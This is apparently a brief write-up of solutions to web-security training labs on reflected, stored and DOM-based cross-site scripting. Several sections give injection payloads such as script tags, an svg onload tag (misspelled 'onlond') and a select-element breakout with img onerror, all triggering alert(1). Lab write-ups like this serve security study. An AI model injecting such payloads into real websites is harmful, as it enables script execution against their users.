 # Labs
### Reflected XSS into HTML context with nothing encoded
```<script>alert(1)</script>``` in search box.

<br>

### Stored XSS into HTML context with nothing encoded
```<script>alert(1)</script>``` in comment section.

<br>

### DOM XSS in document.write sink using source location.search
<img width="500" src="https://user-images.githubusercontent.com/68285613/146972401-767cfebe-24de-403c-b447-e028a8b35f77.png">

``` "><svg onlond=alert(1)>``` in search box.

<br>

### DOM XSS in document.write sink using source location.search inside a select element

<img width="500" src="https://user-images.githubusercontent.com/68285613/146982039-d5264792-8f54-4e75-bd1e-4d18056a0ad6.png">

Once determined it's able to use url to write into script, 

use ```storeId="></select><img src=1 onerror=alert(1)>```.

<img width="500" src="https://user-images.githubusercontent.com/68285613/146986519-5c632667-cc06-49fb-90ac-ee63a4db6596.png">

### DOM XSS in innerHTML sink using source location.search
```</div><svg onload=alert(1)>``` in search box.

